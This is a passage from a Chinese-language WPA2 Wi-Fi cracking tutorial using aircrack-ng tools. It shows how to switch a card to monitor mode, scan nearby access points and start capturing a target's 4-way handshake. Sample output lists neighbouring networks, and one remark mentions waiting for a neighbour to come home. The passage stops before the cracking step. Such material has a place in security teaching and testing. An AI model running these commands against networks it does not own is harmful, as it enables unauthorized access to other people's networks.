 如果你没有看到有接口列出，意味着你的无线网卡就不支持监测模式 😞

我们将假设你的无线接口名称是 `wlan0`，但是请确保使用正确的名称如果你的名称与这个不同的话。接下来，我们将接口转换为监测模式：

```bash
airmon-ng start wlan0
```

运行 `iwconfig`。你现在应该能够看到列出一个新的监测模式接口（比如 `mon0` 或者 `wlan0mon`）。

## 找到你的目标

使用你的监测接口开始监听附近的 [802.11 Beacon 帧](https://en.wikipedia.org/wiki/Beacon_frame)广播：

```bash
airodump-ng mon0
```

你应该可以看到类似于下面的输出。

```
CH 13 ][ Elapsed: 52 s ][ 2017-07-23 15:49                                         

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 14:91:82:F7:52:EB  -66      205       26    0   1  54e  OPN              belkin.2e8.guests
 14:91:82:F7:52:E8  -64      212       56    0   1  54e  WPA2 CCMP   PSK  belkin.2e8
 14:22:DB:1A:DB:64  -81       44        7    0   1  54   WPA2 CCMP        <length:  0>
 14:22:DB:1A:DB:66  -83       48        0    0   1  54e. WPA2 CCMP   PSK  steveserro
 9C:5C:8E:C9:AB:C0  -81       19        0    0   3  54e  WPA2 CCMP   PSK  hackme
 00:23:69:AD:AF:94  -82      350        4    0   1  54e  WPA2 CCMP   PSK  Kaitlin's Awesome
 06:26:BB:75:ED:69  -84      232        0    0   1  54e. WPA2 CCMP   PSK  HH2
 78:71:9C:99:67:D0  -82      339        0    0   1  54e. WPA2 CCMP   PSK  ARRIS-67D2
 9C:34:26:9F:2E:E8  -85       40        0    0   1  54e. WPA2 CCMP   PSK  Comcast_2EEA-EXT
 BC:EE:7B:8F:48:28  -85      119       10    0   1  54e  WPA2 CCMP   PSK  root
 EC:1A:59:36:AD:CA  -86      210       28    0   1  54e  WPA2 CCMP   PSK  belkin.dca
```

出于这个演示的目的，我们将会破解我自己的网络，"hackme"。记住利用 `airodump-ng` 展示的 BSSID， MAC 地址以及信道（`CH`）号，在下一个步骤中我们将会需要它们。

## 捕获 4-way Handshake

WPA/WPA2 使用 [4-way Handshake](https://security.stackexchange.com/questions/17767/four-way-handshake-in-wpa-personal-wpa-psk) 来认证设备连接网络。你不需要明白这些的含意，但是你必须抓取 handshake 才能破解网络密码。这些握手发生在设备连接网络的时候，比如，当你的邻居工作回家的时候。我们通过之前命令发现的信道以及 bssid 值来使用 `airmon-ng` 来监视目标网络。

```shell
# 将 -c 以及 --bssid 值替换为你的目标网络值
# -w 用来指定我们保存捕获到数据包的文件夹
airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w . mon0
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 9C:5C:8E:C9:AB:C0  -47   0      140        0    0   6  54e  WPA2 CCMP   PSK  ASUS  
```
